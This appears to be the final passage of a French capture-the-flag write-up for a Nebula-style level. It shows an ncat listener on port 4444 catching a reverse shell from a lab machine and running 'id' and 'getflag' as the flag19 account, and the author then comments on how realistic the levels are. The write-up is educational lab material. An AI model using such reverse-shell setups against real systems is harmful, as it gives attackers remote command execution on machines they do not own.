 Celui ci fonctionne :

```bash
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:60869.
id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
getflag
You have successfully executed getflag on a target account
```

J'ai particulièrement aimé les astuces sur le level 16 qui pourraient s'appliquer dans la réalité. Les autres sont instructifs mais pas forcément aussi réalistes.
